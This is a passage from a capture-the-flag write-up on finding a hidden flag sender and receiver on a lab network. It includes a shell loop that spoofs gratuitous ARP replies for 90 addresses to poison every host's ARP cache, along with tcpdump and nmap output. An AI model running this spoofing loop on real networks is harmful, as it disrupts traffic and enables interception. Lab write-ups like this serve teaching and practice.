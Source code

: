 ### Method 1: Watch the World Burn

This was honestly what came to my mind first, and for the purpose of this CTF it works.

After scanning the network and finding that there were only 90 hosts, ranging from 192.168.0.1 to 192.168.0.90, I wrote a quick shell script to send a gARP for every possible receiving IP address.

This is sent to the broadcast address (192.168.0.255), so all devices on the network will receive this gARP. Whoever the sender is, its the receiver's IP address binding in the ARP cache would definitely have been poisoned by the end of the script.

```shell
i=1
echo $i
while [ $i -le 90 ]
do
    /sbin/ifconfig eth0:$i 192.168.0.$i up
    arping -c 1 -U -s 192.168.0.$i 192.168.0.255
    i=$(( $i+1 ))
done
```

In the `tcpdump` output, we can then see that the sender is 192.168.0.54 and the receiver is 192.168.0.78.

```
/ # tcpdump
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:10:58.645094 IP ip-192-168-0-54.ec2.internal.48746 > ip-192-168-0-78.ec2.internal.8000: Flags [S], seq 3814507201, win 64240, options [mss 1460,sackOK,TS val 1280486540 ecr 0,nop,wscale 7], length 0

...
```

In the real world, however, this would definitely be much noisier and less reliable.

### Method 2: Finding the Open TCP Port

Alternatively, we could simply search for an open TCP port. Since the flag is sent via TCP instead of UDP, we can check that the receiver has the TCP port 8000 open (otherwise, there's no way for it to receive the flag).

`nmap -p 8000 192.168.0.0/24`

We would find that 192.168.0.78 has port 8000 open.

```
Nmap scan report for ip-192-168-0-78.ec2.internal (192.168.0.78)
Host is up (0.000019s latency).

PORT     STATE SERVICE
8000/tcp open  http-alt
MAC Address: 02:42:0A:01:E5:C3 (Unknown)
```

